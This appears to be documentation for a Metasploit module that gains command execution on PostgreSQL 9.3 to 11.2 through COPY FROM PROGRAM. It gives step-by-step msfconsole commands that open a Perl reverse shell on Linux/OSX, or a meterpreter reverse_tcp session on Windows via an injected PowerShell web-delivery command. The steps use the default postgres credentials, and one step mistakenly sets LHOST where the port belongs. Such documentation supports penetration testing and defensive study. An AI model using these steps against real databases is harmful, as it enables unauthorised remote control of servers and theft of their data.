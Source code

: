 This module attempts to create a new table, then execute system commands in the
context of copying the command output into the table.

This module should work on all Postgres systems running version 9.3 and above.

## Vulnerable Application

  Download any version of PostgreSQL from 9.3 to 11.2 (Latest at time of writing)
  Set up the software and connect as the postgres superuser.
  Use the techniques described in this blogpost to verify command execution:
    https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5

## Verification Steps

  You must be able to connect to the PostgreSQL database, and have a valid set of superuser
  credentials, or a user in the 'pg_execute_server_program' group
  
  Exploiting Linux/OSX:

    1. Start msfconsole
    2. use exploit/multi/postgres/postgres_copy_from_program_cmd_exec
    3. set RHOST target.ip.add.ress
    4. set payload cmd/unix/reverse_perl
    5. set PASSWORD postgres
    6. set USERNAME postgres
    7. set DATABASE postgres
    8. set LHOST my.ip.add.ress
    9. set LHOST myport
    10. exploit
  
  Exploiting Windows:

    1. Start msfconsole
    2. use exploit/multi/script/web_delivery
    3. set target 2
    4. set payload windows/meterpreter/reverse_tcp
    5. set LHOST my.ip.add.ress
    6. exploit -j
    7. Copy powershell command, add \ to escape any single quotes
    8. use exploit/multi/postgres/postgres_copy_from_program_cmd_exec
    9. set RHOST target.ip.add.ress
    10. set COMMAND powershell... (Output from Step 7)
    11. set PASSWORD postgres
    12. set USERNAME postgres
    13. set DATABASE postgres
    14. exploit


## Options

  **TABLENAME**
  
  The name of the table to create in the database, default is set to 'msftesttable', this table will be dropped create a new
  one each time the exploit is run.
  